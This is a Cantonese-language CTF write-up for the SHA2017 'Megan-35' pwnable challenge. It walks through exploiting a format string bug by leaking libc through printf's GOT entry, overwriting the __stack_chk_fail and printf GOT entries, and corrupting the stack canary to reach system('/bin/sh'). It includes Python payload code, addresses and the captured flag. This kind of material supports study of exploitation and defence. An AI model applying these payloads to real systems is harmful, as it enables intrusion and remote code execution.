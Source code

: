 # SHA2017 Megan-35

呢題其實唔難,如果比賽個陣熟canary,根本就係coding challenge同小學生加減數問題:0)

呢條問題主要係一個input megan-35 encrypted message,output decrypted message 嘅service

有format string bug


由於佢有開canary,我地可以寫爛個canary,check sec fail同printf, 跳返去main再input /bin/sh, run system("/bin/sh")


首先用ida搵 canary address:


![alt text](1.png)



用stack dump數到第135號位save左 canary,71號位開始save printf of decrypted message



![alt text](2.png)



由於提供libc同冇aslr,所以可以利用GOT再寫printf去71號位,揾libc offset,再搵返system server side address:


![alt text](3.png)

不過由於直接讀%71$p 只會出返個printf got address,所以要send 70個%, 再dereference 71號位by %s 

```python
#dereference by %s

payload+='%p'*70+'--'+'%s'

printf_addr=int(r.recv(1024).split('--')[-1][:4][::-1].encode('hex'),16)

```

之後就寫stack_check_fail做main,寫printf做system



最後一步,寫canary

![alt text](2.png)


係stack dump一眼就見到139號位有個近似stack address嘅物體


於是用local 139 save個個address 減返canary address ($ebp-0x1c)

得到 0x34


send %139$p 求server side 139 stored address,


canary: 0xffffdd9c=0xffffddd0-0x34



Format String payload

```python
#Step 1 write stack chk fail to main
payload =p32(stack_check_fail_got)
payload+=p32(stack_check_fail_got+1)
payload+=p32(stack_check_fail_got+2)
payload+=p32(stack_check_fail_got+3)

#Step 2 write printf to system
payload+=p32(printf_got)
payload+=p32(printf_got+1)
payload+=p32(printf_got+2)
payload+=p32(printf_got+3)

#test arg 139
#-0x34
#address of canary
#send %139$p
#return 0xffffddd0
#from gdb, we know the difference between canary and %139$p is 0x34,
#so 0xffffdd9c=0xffffddd0-0x34

payload+=p32(0xffffdd9c)

#36 is the length of the payload above

fmt= '%188c%71$hhn'# 0xe0-36=188  writen to position 71
fmt+='%164c%72$hhn'# 0x84-0xe0=
fmt+='%128c%73$hhn'# 0x04-0x84=
fmt+='%4c%74$hhn'# 0x08-0x04

#system_server=0xf7e53940
fmt+='%56c%75$hhn'# 0x40-0x08=
fmt+='%249c%76$hhn'# 0x39-0x40=
fmt+='%172c%77$hhn'# 0xe5-0x39=
fmt+='%18c%78$hhn'  # 0xf7-0xe5=

#9 write canary
fmt+='%11c%79$hhn'
```

由於hhn 係根據%之前string 嘅length,再寫strelen去個address

加上canary頭一個byte係 \x00,所以求其寫d非0嘅野上去已經可以corrupt佢


# Flag:
![alt text](megan.png)

```
flag{43eb404b714b8d22e1168775eba1669c}
```

慘


Reference
==========================
1.http://veritas501.space/2017/04/28/%E8%AE%BAcanary%E7%9A%84%E5%87%A0%E7%A7%8D%E7%8E%A9%E6%B3%95/

2.https://hgarrereyn.gitbooks.io/th3g3ntl3man-ctf-writeups/content/2017/SHA2017CTF/problems/pwnable/megan-35/

3.https://b0tchsec.com/2017/sha2017/megan-35

4.https://chung96vn.blogspot.hk/2017/08/sha2017-write-up-pwn-200.html

5.https://github.com/L4ys/CTF/blob/master/sha_2017/pwn200/exp.py


